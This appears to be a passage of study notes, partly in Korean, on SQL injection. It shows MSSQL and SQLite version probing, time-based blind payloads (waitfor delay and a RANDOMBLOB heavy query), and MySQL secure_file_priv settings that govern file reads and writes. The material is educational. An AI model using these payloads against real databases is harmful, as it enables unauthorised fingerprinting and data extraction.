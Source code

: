 ```sql
-----------
          1
(1 rows affected)

1> select 1 from test where substring(@@version, 1, 1)='N';
2> go
-----------
(0 rows affected)

select 1 where substring(@@version, 1, 1)='M' and waitfor delay '0:0:5';
```

### SQLite

```sql
sqlite> select sqlite_version();
3.11.0

sqlite> select 1 union select 1, 2;
Error: SELECTs to the left and right of UNION do not have the same number of result columns

-- sqlite_version() => '3.11.0', substr(sqlite_version(), 1, 1) => '3'
sqlite> select substr(sqlite_version(), 1, 1)='3';
1
sqlite> select substr(sqlite_version(), 1, 1)='4';
0

select case when substr(sqlite_version(), 1, 1)='3' then LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(300000000/2)))) else 1=1 end;
```


# DBMS Misconfiguration
### Out of DBMS: MySQL
MySQL에서 파일 관련된 작업을 할 때에는 mysql 권한으로 수행
“my.cnf” 설정 파일의 secure_file_priv 값에 영향을 받음
secure_file_priv는 mysql 쿼리 내에서 load_file 혹은 outfile을 이용해 파일에 접근할 수 있음
기본적으로 secure_file_priv의 값은 /var/lib/mysql-files/임

	# my.cnf
	[mysqld]
	# secure_file_priv = ""   # 미설정. 기본 설정 값으로 설정
	secure_file_priv = "/tmp" # 해당 디렉터리 하위 경로에만 접근 가능
	secure_file_priv = ""     # mysql의 권한이 가능한 모든 경로에 접근이 가능
	secure_file_priv = NULL   # 기능이 비활성화 됨

secure_file_priv 값 조회
